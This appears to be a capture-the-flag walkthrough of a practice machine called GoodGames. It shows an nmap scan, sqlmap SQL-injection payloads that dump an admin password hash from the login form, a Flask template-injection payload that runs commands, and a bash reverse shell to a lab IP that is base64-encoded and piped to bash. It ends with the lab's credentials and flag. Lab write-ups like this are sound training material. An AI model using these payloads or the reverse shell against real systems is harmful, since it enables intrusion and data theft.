 Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

```log
$ sqlmap -u http://goodgames.htb/login --data="email=a%40a.a&password=a" -D main -T user -dump

[*] starting @ 13:00:46 /2021-11-20/

[13:00:47] [INFO] resuming back-end DBMS 'mysql' 
[13:00:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@a.a' AND (SELECT 6708 FROM (SELECT(SLEEP(5)))hpPZ) AND 'VYTZ'='VYTZ&password=a

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=a@a.a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162627671,0x69676b6673706955474a69524d724968636c576a65614b6c704b454745665a564242466c55717a57,0x7171787671)-- -&password=a
---
[13:00:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:00:47] [INFO] fetching columns for table 'user' in database 'main'
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[13:00:50] [INFO] fetching entries for table 'user' in database 'main'
[13:00:50] [INFO] recognized possible password hashes in column '`password`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: main
Table: user
[1 entry]
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution through SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
````
